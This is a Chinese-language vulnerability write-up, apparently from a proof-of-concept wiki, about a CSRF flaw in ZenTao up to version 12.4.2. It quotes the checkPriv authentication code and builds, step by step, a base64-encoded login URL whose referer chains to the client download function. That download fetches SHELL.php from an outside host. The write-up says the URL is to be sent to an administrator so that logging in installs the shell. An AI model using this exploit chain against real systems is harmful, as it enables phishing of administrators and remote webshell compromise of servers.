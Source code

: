 # 禅道 小于12.4.2 CSRF漏洞

## 漏洞描述

可以针对禅道的部分模块制造恶意URL地址发送给管理员，当管理员登录时会执行模块的恶意请求,可用于进行钓鱼请求

## 影响版本

> [!NOTE]
>
> 禅道 <= 12.4.2版本

## 环境搭建

百度下12.4.2的禅道环境按步骤安装下载即可

[禅道官方网站](https://www.zentao.net/)

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-1.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

调用接口查询版本信息

```
http://xxx.xxx.xxx.xxx/www/index.php?mode=getconfig
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-14.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

## 漏洞复现

这里利用 禅道 小于12.4.2 文件上传漏洞 CNVD-C-2020-121325(可参照上一篇文章) 来构造一个恶意的URL地址

查看**module/common/model.php**的**checkPriv**方法

```php
public function checkPriv()
{
    $module = $this->app->getModuleName();
    $method = $this->app->getMethodName();
    if($this->app->isFlow)
    {
        $module = $this->app->rawModule;
        $method = $this->app->rawMethod;
    }

    if(!empty($this->app->user->modifyPassword) and (($module != 'my' or $method != 'changepassword') and ($module != 'user' or $method != 'logout'))) die(js::locate(helper::createLink('my', 'changepassword')));
    if($this->isOpenMethod($module, $method)) return true;
    if(!$this->loadModel('user')->isLogon() and $this->server->php_auth_user) $this->user->identifyByPhpAuth();
    if(!$this->loadModel('user')->isLogon() and $this->cookie->za) $this->user->identifyByCookie();

    if(isset($this->app->user))
    {
        if(!defined('IN_UPGRADE')) $this->session->user->view = $this->loadModel('user')->grantUserView();
        $this->app->user = $this->session->user;

        if(!commonModel::hasPriv($module, $method)) $this->deny($module, $method);
    }
    else
    {
        $referer  = helper::safe64Encode($this->app->getURI(true));
        die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
    }
}
```

这里的代码片段为鉴权函数，可以看到最后一句代码

```php
$referer  = helper::safe64Encode($this->app->getURI(true));
            die(js::locate(helper::createLink('user', 'login', "referer=$referer")));
```

所以当调用当前权限不允许的方法时，会进行跳转，并在**$referer**参数缓存调用的方法URL，当使用这个跳转的地址登录时则会直接调用此方法

**URL地址构造过程**

```
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=HTTP://peiqi.tech/SHELL.php
```

将**link参数**base64加密

```
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=/www/index.php.m=client&f=download&version=1&link=SFRUUDovL3BlaXFpLnRlY2gvU0hFTEwucGhw
```

将**referer参数**以 . 做分割base64加密两边字符

```
http://xxx.xxx.xxx.xxx/www/index.php?m=user&f=login&referer=L3d3dy9pbmRleC5waHA.bT1jbGllbnQmZj1kb3dubG9hZCZ2ZXJzaW9uPTEmbGluaz1TRlJVVURvdkwzQmxhWEZwTG5SbFkyZ3ZVMGhGVEV3dWNHaHc=
```

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-12.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)

将这个URL地址发送给管理员，当管理员登录时则会触发恶意文件下载

![]( http://peiqi-wiki-poc.oss-cn-beijing.aliyuncs.com/vuln/zentao-13.png?x-oss-process=image/auto-orient,1/quality,q_90/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10)